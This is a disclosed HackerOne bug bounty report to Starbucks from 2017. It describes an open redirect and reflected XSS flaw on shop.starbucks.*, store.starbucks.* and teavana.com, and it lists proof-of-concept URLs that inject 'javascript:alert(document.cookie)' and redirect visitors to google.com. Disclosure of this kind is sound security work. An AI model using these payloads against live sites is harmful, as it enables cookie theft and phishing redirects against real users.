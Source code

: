# Open redirect / Reflected XSS payload in root that affects all your sites (store.starbucks.* / shop.starbucks.* / teavana.com)

## Report Details
- **Report ID**: 196846
- **URL**: https://hackerone.com/reports/196846
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-01-09T09:04:56.079Z
- **Disclosed**: 2017-06-14T19:38:58.447Z

## Reporter
- **Username**: inhibitor181
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hello, during some open redirects testing, I have noticed a very strange redirect that occured when I had modified a parameter using something like `>cofee`. I have digged up further and then I have noticed that one can make a redirect by modifying GET parameters with this structure : `<>//google.com`

There seems to be a stripping of tags and after that some chained redirect, that will eventually trigger an XSS vulnerability if the payload is like : `<>javascript:alert(document.cookie);`.

__So, based on this I have noticed that all your websites except the starbucks.* are vulnerable to an XSS payload that is written directly in the root URL or almost ANY other get parameter__, thus making almost all the websites exploitable with multiple injection points (starbucks.* seems not affected)

POC EXAMPLES
-------
```
https://shop.starbucks.de/<>javascript:alert(document.cookie);
https://teavana.com/<>javascript:alert(document.cookie);
https://store.starbucks.com/<>javascript:alert(document.cookie);
https://shop.starbucks.de/coffee/coffee,de_DE,sc.html?prefn1=decaffeinated&prefv1=<>javascript:alert('xss parameter');
https://shop.starbucks.de/coffee/coffee,de_DE,sc.html?prefn1=<>javascript:alert('xss parameter');
```

Bonus - open redirect example :
```
https://shop.starbucks.de/coffee/coffee,de_DE,sc.html?prefn1=decaffeinated&prefv1=<>//google.com
https://teavana.com/<>//google.com
```

## Attachments
No attachments
